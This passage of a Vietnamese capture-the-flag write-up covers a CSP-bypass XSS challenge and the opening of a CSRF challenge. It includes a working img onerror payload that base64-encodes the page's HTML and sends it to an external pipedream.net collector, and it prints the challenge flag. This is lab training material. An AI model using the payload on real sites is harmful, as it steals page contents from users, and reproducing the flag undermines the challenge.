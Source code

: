 - Gửi flag qua server của ta:

```
<img/src=x on error="window.top.location='//1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net?='.concat(btoa(encodeURIComponent(document.body.innerHTML)))">
```

![1](1/../img/11/Screenshot%20from%202023-01-11%2012-02-03.png)

- Decode là ra:

![1](1/../img/11/Screenshot%20from%202023-01-11%2012-03-49.png)

```
Flag:  CSP_34SY_T0_BYP4S_WITH_SCRIPT
```


# 12. CSRF - 0 protection

- Đầu tiên đăng kí tài khoản admin/admin thì vô phần private thì vì mình là user nên không có quyền đọc.

- Có một form update profile để tăng quyền lên admin nhưng mình không có quyền thay đổi status:

![1](1/../img/12/Screenshot%20from%202023-01-27%2011-29-34.png)
